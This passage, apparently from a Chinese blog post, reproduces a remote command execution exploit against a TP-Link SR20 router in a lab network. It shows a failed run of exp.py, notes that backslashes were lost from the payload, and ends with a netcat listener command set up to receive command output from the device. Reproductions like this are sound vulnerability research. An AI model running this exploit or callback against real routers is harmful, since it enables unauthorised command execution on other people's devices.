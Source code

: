 ```python
root@ubuntu:/home/giantbranch/CVE/TPlinkSR20# python exp.py 10.10.10.2 date
Traceback (most recent call last):
  File "exp.py", line 15, in <module>
    payload = 'x01x31'.ljust(12,'x00')
TypeError: ljust() argument 2 must be char, not str
```

这是因为别的大佬在发布文章的时候，反斜杠 \ 这个字符被网页过滤了，再加上就好。payload如下：

![fig12-payload](/TPlinkSR20_rce/fig12-payload.jpg)



命令成功执行结果如下：

![fig13-res_date](/TPlinkSR20_rce/fig13-res_date.jpg)



5、NC回显结果

宿主机监听7890端口：`nc -nvl 10.10.10.1 7890`
